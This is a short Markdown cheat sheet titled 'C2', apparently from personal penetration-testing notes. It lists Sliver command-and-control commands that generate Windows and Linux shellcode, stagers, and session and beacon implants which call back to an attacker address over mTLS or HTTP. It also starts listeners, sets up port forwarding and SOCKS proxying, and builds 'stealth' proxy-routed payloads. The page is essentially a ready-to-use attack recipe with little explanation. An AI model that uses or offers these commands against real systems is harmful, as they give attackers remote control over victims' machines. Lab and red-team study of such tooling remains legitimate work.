 ```yaml
---
title: "C2"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```

## Sliver
- Generate a shell code (session) : 
```sh
profiles new --mtls 10.8.3.12 --format shellcode win-shellcode

stage-listener --url http://10.8.3.12:9001 --profile win-shellcode

generate stager --lhost 10.8.3.12 -lport 9001 --protocole http --save /tmp
```
https://github.com/JohnHammond/binnim

- Start listener : 
```sh
mlts
use sessionId
```

- Generate Session Implant for Labs : 
```sh
generate --mtls 10.8.3.12:443 --save /workspace
mtls --lport 443
#or 
generate --mtls 10.8.3.12 --os linux --arch amd64 --skip-symbols --save /workspace --name heron
mtls
```

-  Generate Beacon Implant for Labs : 
```sh
generate beacon --mtls 10.8.3.12:4431 --save /workspace/beacon.exe --seconds 5 --jitter 3
```

- Regenerate an Implant : 
```sh
regenerate --save /Users/moloch/Desktop NEW_GRAPE
```

- Port Forwarding
```sh
portfwd add --remote 10.10.10.10:22
```

- Stealth payloads 
```sh
generate beacon --seconds 30 --jitter 3 --os windows --arch amd64 --format shellcode --http <attacker ip>?proxy=http://<proxy ip>:8080,<attacker ip>?driver=wininet --name wutai-http --save /tmp/http.bin -G --skip-symbols
```

- Proxychains : 
```sh
socks5 start
```